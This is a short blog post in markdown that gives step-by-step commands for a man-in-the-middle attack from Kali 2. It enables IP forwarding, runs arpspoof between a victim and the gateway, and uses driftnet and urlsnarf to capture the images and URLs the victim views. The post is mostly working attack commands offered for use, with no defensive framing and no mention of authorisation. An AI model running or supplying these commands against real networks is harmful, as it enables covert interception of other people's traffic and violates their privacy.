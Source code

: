 ```yaml
---
layout: post
title: "How To Perform A Man In The Middle Using Kali 2"
category: Hacking
description: "Learn how to perform a man in the middle using Kali 2 with arpspoof. Caputure images and urls."
---
```


![Man in the middle](/images/mitm.png)

Today we'll be looking at how to perform a Man In The Middle to capture images and urls by the victim.

Requirements are [Kali 2](https://www.kali.org)

# 1. Open 3 terminals

![Three terminals](/images/step1.png)

# 2. Set up port forwarding

Run this command and if the output is 0 then we need to change it to 1

```bash
$ cat /proc/sys/net/ipv4/ip_forward
```
<br>

```bash
$ echo 1 >> /proc/sys/net/ipv4/ip_forward
```

![Step 2](/images/step2.png)

# 3. Run arpspoof

first

```bash
$ arpspoof -i eth0 targetiphere gatewayiphere
```

![step 3](/images/step3.png)

and then in another terminal

```bash
$ arpspoof -i eth0 gatewayiphere targetiphere
```

![step 4](/images/step4.png)

# 4. Run driftnet

This will capture images opened by the victim and display them in the black box.

```bash
$ driftnet -i eth0
```

![step 5](/images/step5.png)

### Bonus: Run urlsnarf to capture http requests

```bash
$ urlsnarf -i eth0
```
